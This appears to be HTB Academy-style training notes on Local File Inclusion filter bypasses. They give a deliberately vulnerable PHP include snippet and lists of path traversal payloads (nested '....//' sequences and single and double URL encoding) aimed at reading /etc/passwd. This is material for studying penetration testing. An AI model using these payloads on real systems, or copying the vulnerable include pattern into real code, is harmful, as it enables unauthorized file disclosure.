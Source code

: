 # Advanced LFI Bypasses & PHP Filters - HTB Academy Guide

## Basic LFI Filter Bypasses

Many applications implement basic protections against LFI attacks. Understanding these bypasses is crucial for successful exploitation.

### 1. Non-Recursive Path Traversal Filters

**Vulnerable Code:**
```php
<?php
$file = str_replace("../", "", $_GET['file']);
include($file);
?>
```

**Bypass Technique:**
```bash
# Non-recursive replacement allows double encoding
....//....//....//etc/passwd

# The filter removes first "../" leaving second "../" intact
# Original: ....//....//....//etc/passwd
# After filtering: ../../../etc/passwd
```

**HTB Academy Example:**
```bash
# Test payload
http://target.com/index.php?language=....//....//....//....//etc/passwd

# Alternative patterns
....\/....\/....\/etc/passwd
..../..../..../etc/passwd
```

### 2. URL Encoding Bypasses

**Single URL Encoding:**
```bash
# Basic path traversal
../../../etc/passwd

# URL encoded version
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd

# Mixed encoding
..%2f..%2f..%2fetc%2fpasswd
```

**Double URL Encoding:**
```bash
# Double encode the dots and slashes
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd

# Useful when application decodes input twice
```

